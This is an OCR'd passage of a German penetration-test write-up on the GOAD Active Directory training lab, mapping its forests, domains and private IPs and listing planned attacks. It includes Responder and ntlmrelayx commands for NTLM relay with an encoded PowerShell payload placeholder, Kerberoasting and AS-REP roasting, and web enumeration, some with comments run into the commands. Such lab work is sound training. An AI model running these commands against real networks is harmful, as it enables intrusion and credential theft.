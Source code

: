 
## 5. Active Directory-Architektur

### 5.1 Forest-/Domain-Struktur

```
FOREST: sevenkingdoms.local
├── ROOT DOMAIN: sevenkingdoms.local (192.168.20.10)
└── CHILD DOMAIN: north.sevenkingdoms.local (192.168.20.11)
    └── MEMBER SERVER: castelblack.north.sevenkingdoms.local (192.168.20.22)

FOREST: essos.local
├── ROOT DOMAIN: essos.local (192.168.20.12)
└── MEMBER SERVER: braavos.essos.local (192.168.20.23)
```

### 5.2 Trust-Beziehungen

**Vermutung:** Bidirektionale Forest-Trusts zwischen `sevenkingdoms.local` und `essos.local` (typisch für GOAD-Lab)

---

## 6. Nächste Schritte in der Cyber Kill Chain

### Phase 2: Weaponization & Delivery

### 6.1 Sofortige Angriffsmöglichkeiten

**SMB Relay-Angriffe:**

```bash
# Responder für NTLM-Captureresponder -I eth0 -rdwv# ntlmrelayx gegen CASTELBLACK/BRAAVOSntlmrelayx.py -tf targets.txt -smb2support -c "powershell.exe -enc <base64_payload>"
```

**Kerberos-Angriffe:**

```bash
# Kerberoasting (falls Service Accounts existieren)GetUserSPNs.py sevenkingdoms.local/user:password -dc-ip 192.168.20.10
# ASREPRoasting (für Benutzer ohne Pre-Auth)GetNPUsers.py sevenkingdoms.local/ -dc-ip 192.168.20.10 -usersfile users.txt
```

### 6.2 Web-Application-Testing

**IIS-Schwachstellen-Tests:**

```bash
# Directory Enumerationdirb http://192.168.20.10/ /usr/share/dirb/wordlists/common.txt
# HTTP Methods Testingnmap --script http-methods 192.168.20.10
```
